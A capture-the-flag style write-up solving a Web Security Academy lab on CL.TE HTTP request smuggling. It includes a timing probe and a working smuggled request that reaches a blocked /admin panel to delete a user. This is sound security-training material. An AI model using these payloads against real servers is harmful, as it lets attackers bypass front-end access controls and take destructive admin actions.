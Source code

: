 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

# Solution
## Analysis
### Confirming that /admin path exists
|![](Images/image-26.png)|
|:--:| 
| *Path /admin exists and is blocked* |


###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a8f000504d220a7810962b60088009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-25.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and `Content-Length` value from payload. `Content-Length` can be set 3 (only 1 letter would be added to the smuggled request, the rest would be ignored) or can be set to 50 (bigger part of the second request would be added to the smuggled request).

Final payload:
```
POST / HTTP/1.1
Host: 0a8f000504d220a7810962b60088009a.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

|![](Images/image-27.png)|
|:--:| 
| *Request was smuggled but Host header value was wrong* |
|![](Images/image-28.png)|
| *Request was smuggled but duplicate header names (Host) are not allowed* |
|![](Images/image-29.png)|
| *Request was smuggled successfuly* |
|![](Images/image-30.png)|
| *Deletion of user Carlos* |
